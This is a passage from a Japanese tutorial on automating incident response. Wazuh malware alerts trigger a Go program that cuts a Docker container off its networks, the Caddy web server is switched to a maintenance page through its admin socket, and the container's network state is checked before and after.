<figure></figure>

ノードを追加して設定パネルで以下のように設定し、Routing Rules2のブランチには`No Operation, do nothing`ノードを追加します。

| Name | Value |
| - | - |
| Mode | Rules |
| Routing Rules1 | &#123;&#123; $('イベントデータ加工ノードの名前).item.json.rule_id &#125;&#125; is equal to 'マルウェア検知イベントのルールID' |
| Routing Rules2 | &#123;&#123; $('イベントデータ加工ノードの名前).item.json.rule_id &#125;&#125; is not equal to 'マルウェア検知イベントのルールID' |

次にRouting Rules1のブランチに`Execute Command`ノードを追加して、アプリケーションサーバーのコンテナをDockerネットワークから隔離するスクリプトを実行します。

<figure></figure>

ノードを追加して設定パネルのコマンド入力欄に以下のコマンドを入力します。

```shell
sudo /home/node/<実行するスクリプト> <アプリケーションサーバーのコンテナ名>
```

今回実行するスクリプトはGO言語で作成してビルドしたバイナリファイルをサーバーに配置しています。

```go
package main

import (
	"context"
	"fmt"
	"log"
	"os"

	"github.com/docker/docker/client"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: go run isolation.go <container_name_or_id>")
		os.Exit(1)
	}

	containerNameOrID := os.Args[1]

	ctx := context.Background()
	cli, err := client.NewClientWithOpts(client.FromEnv, client.WithAPIVersionNegotiation())
	if err != nil {
		log.Printf("Unable to create docker client: %s", err)
		panic(err)
	}
	defer cli.Close()

	containerJSON, err := cli.ContainerInspect(ctx, containerNameOrID)
	if err != nil {
		fmt.Printf("Error inspecting container: %v\n", err)
		os.Exit(1)
	}

	if containerJSON.NetworkSettings == nil || containerJSON.NetworkSettings.Networks == nil {
		fmt.Println("Container is not connected to any networks.")
		os.Exit(1)
	}

	fmt.Printf("Disconnecting container '%s' from networks...\n", containerNameOrID)

	for networkName := range containerJSON.NetworkSettings.Networks {
		err := cli.NetworkDisconnect(ctx, networkName, containerJSON.ID, true)
		if err != nil {
			fmt.Printf("Error disconnecting from network '%s': %v\n", networkName, err)
		} else {
			fmt.Printf("Disconnected from network '%s'\n", networkName)
		}
	}

	fmt.Println("Finished disconnecting.")
}
```

>[!NOTE]
>Docker-outside-of-Docker（ソケットの共有）を使ってワークフローエンジンのコンテナからDockerホストに対してネットワークの切断を実行しています。

最後にアプリケーションをメンテナンス画面に切り替える処理を追加します。
`IF`ノードでネットワーク切断の成否を判別した後に`Execute Command`でWebサーバーのルーティングをメンテナンス画面に切り替えるスクリプトを実行します。

<figure></figure>

ノードを追加して設定パネルのコマンド入力欄に以下のコマンドを入力します。

```shell
cat /home/node/maintenance.txt | sudo nc -U /var/run/caddy/caddy.sock
```

読み込むテキストファイルの内容は以下のようになります。Netcatコマンドを使ってソケット経由でWebサーバー（Caddy）の[Admin API](https://caddyserver.com/docs/api#patch-configpath)を実行し、アプリケーションサーバーへのルートを上書きしてWebサーバーから直接メンテナンスメッセージを返すようにしています。

```
PATCH /config/apps/http/servers/app/routes/0 HTTP/1.1
Host: <Caddy設定ファイルのoriginsに設定したホスト名 https://caddyserver.com/docs/json/admin/origins/>
Content-Type: application/json
Content-Length: 138

{"handle":[{"handler":"subroute","routes":[{"handle":[{"body":"ただいまメンテナンス中です","handler":"static_response"}]}]}]}
```

>[!NOTE]
>今回CaddyのAPIの呼び出しはデフォルトの2019番ポートを使用したHTTP接続ではなくUNIXソケット接続で行っています（ソケットをコンテナ同士で共有）。

簡単なインシデントレスポンスの実装が出来ましたので、再度攻撃者エミュレーションを実行してみます。

クレデンシャルファイルを外部サーバーに送信する攻撃（Exfiltration Over Alternative Protocol）を実行すると、下図のようにアラートが登録され通知が届きます。

<figure></figure>

<figure></figure>

次にマルウェアをダウンロードする攻撃（Stage Capabilities: Upload Malware）を実行してみます。

実行前にWebアプリケーションにアクセスすると通常の画面が表示されます。

<figure></figure>

コンテナのネットワークの状態を確認すると以下のように表示されます。

```shell
root@~# docker inspect 86world-app | jq '.[].NetworkSettings.Networks'
{
  "86world_local": {
    "IPAMConfig": {},
    "Links": null,
    "Aliases": [
      "e482656c35bc",
      "app"
    ],
    "MacAddress": "02:42:ac:17:00:06",
    "DriverOpts": {},
    "NetworkID": "a816f7fe2697a65f22122c27a156296730f50543a956eb4392cf49cd5cab638f",
    "EndpointID": "c57cd0920775e54b2c05bd2e4697b03137dfc4ddfcf03841674f147cc49bdc00",
    "Gateway": "172.23.0.1",
    "IPAddress": "172.23.0.6",
    "IPPrefixLen": 16,
    "IPv6Gateway": "",
    "GlobalIPv6Address": "",
    "GlobalIPv6PrefixLen": 0,
    "DNSNames": [
      "86world-app",
      "e482656c35bc",
      "app"
    ]
  }
}
```

攻撃を実行すると、下図のようにインシデントが登録され通知が届きます。

<figure></figure>

<figure></figure>

Webアプリケーションにアクセスするとメンテナンスメッセージが表示されます。

<figure></figure>

コンテナのネットワークの状態を確認するとネットワークから隔離されていることが確認できます。

```shell
root@~# docker inspect 86world-app | jq '.[].NetworkSettings.Networks'
{}
```

アプリケーションのコンテナに接続してネットワークインターフェースを表示するとループバックインターフェースのみ表示されます。

```shell
root@~# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
```

ネットワークから隔離されてWazuhサーバーと通信できなくなるため接続切断のイベントが登録されます。

<figure></figure>
